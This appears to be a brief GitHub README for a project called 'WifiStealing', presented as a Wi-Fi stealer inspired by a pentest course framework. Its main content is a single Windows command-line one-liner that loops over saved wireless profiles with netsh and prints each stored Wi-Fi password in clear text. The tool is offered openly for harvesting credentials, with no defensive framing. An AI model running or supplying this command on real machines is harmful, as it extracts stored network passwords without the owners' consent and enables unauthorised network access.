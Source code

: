 # WifiStealing
Wifi Stealer inspired by Manjuska Framework/TCM

Wireless will always be inferior 
:)


for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
